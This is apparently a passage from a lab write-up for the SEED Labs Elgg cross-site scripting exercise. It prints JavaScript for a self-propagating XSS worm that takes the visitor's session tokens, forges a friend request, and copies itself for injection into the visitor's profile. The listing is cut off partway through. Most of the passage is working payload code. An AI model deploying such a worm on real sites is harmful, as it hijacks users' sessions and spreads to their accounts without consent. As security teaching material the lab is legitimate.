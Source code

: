 \documentclass[12pt]{article}
\begin{document}
For the second part, we need to obtain a copy of the script from the web page or we can just copy paste the entire thing. We use the DOM API to retrieve a copy of the script in the following way:
\begin{verbatim}
<script id="worm">
	var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
	var jsCode = document.getElementById("worm").innerHTML;
	var tailTag = "</" + "script>";
	var wormCode = headerTag + jsCode + tailTag;
</script>
\end{verbatim}

The full script is the following:
\begin{verbatim}
<script id="worm" type="text/javascript">
    window.onload = function () {
        // First part: Send Samy a friend request from the visitor's account
        var ts = elgg.security.token.__elgg_ts; // Time Stamp
        var token = elgg.security.token.__elgg_token; // Security Token
        var userName = elgg.session.user.username;
        var guid = elgg.session.user.guid;
        var SamyID = 59;
        if (guid == SamyID) return; // No attack if Samy is the visitor
        var sendurl = `/action/friends/add?friend=${SamyID}&__elgg_ts=${ts}&__elgg_token=${token}&__elgg_ts=${ts}&__elgg_token=${token}`;
        // Create and send Ajax request to add friend
        var Ajax1 = new XMLHttpRequest();
        Ajax1.open("GET", sendurl, true); // Last boolean value is for asynchronous request making
        Ajax1.setRequestHeader("Host", "www.seed-server.com");
        Ajax1.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax1.send();

        // Second part: Modify the visitor's profile
        var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
        var jsCode = document.getElementById("worm").innerHTML;
        var tailTag = "</" + "script>";
        var wormCode = headerTag + jsCode + tailTag;
        var sendurl = "/action/profile/edit";


\end{verbatim}
\end{document}
